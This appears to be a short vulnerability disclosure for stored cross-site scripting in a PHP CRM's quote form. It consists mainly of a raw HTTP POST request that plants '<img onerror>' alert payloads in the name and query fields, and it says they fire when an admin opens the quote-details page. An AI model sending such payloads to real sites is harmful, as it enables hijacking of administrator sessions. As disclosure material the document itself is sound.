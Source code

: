 ```
POST /crm/get-quote.php HTTP/1.1
Host: 101.126.24.194
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary1810b5edb25cbdbeb426bc57ecf57676
Content-Length: 934
Origin: http://101.126.24.194
Connection: keep-alive
Referer: http://101.126.24.194/crm/get-quote.php
Cookie: PHPSESSID=uqub0pe6484q6qpgmfm3d3mdu7
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundary1810b5edb25cbdbeb426bc57ecf57676
Content-Disposition: form-data; name="name"

<img src=# onerror=alert(1)>
------geckoformboundary1810b5edb25cbdbeb426bc57ecf57676
Content-Disposition: form-data; name="contact"

1231231231
------geckoformboundary1810b5edb25cbdbeb426bc57ecf57676
Content-Disposition: form-data; name="wdnd"

Website Design & Development
------geckoformboundary1810b5edb25cbdbeb426bc57ecf57676
Content-Disposition: form-data; name="email"

1123123@qq.com
------geckoformboundary1810b5edb25cbdbeb426bc57ecf57676
Content-Disposition: form-data; name="company"

123
------geckoformboundary1810b5edb25cbdbeb426bc57ecf57676
Content-Disposition: form-data; name="query"

<img src="#" onerror=alert("XSS")>
------geckoformboundary1810b5edb25cbdbeb426bc57ecf57676
Content-Disposition: form-data; name="submit"

Submit
------geckoformboundary1810b5edb25cbdbeb426bc57ecf57676--
```

When admin views a specific quote via /crm/admin/quote-details.php?id=x, automatically trigger the payload of css.

screenshot

![image-20250827014747821](https://mac-pic-1314279731.cos.ap-nanjing.myqcloud.com/image-20250827014747821.png)
